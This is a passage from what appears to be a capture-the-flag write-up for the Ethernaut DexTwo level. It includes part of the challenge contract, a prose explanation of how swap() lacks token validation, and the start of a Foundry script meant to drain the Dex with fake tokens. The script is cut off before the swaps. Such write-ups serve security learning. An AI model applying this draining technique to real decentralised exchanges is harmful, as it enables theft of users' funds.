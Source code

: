 ```javascript
  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

- Goal

1. You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

- Solution

1. Observe that the `DexTwo` modifies the `swap()` function from the `Dex`. It removed the check of valid tokens. 
2. So, we are now allowed to input any token addresses to the swap() function.
3. I created two Fake Tokens and transferred 100 tokens each of the two tokens to the `Dex` address. 
4. I swapped my fake tokens with the `token1` and `token2` balances of the `Dex` contract.

`DexTwoSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Dex} from "../src/Dex.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";



contract DexTwoSolve is Script{
    Dex public dex = Dex(0xd8c665Dac001720A9efa0f478e63CABc5D64E9e9);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address token1 = address(dex.token1());
        address token2 = address(dex.token2());

        console.log("Token 1 : ", token1);
        console.log("Token 2 : ", token2);

        console.log("DEX balance in TOKEN1 ", dex.balanceOf(token1, address(dex)));
        console.log("DEX balance in TOKEN2 ", dex.balanceOf(token2, address(dex)));

```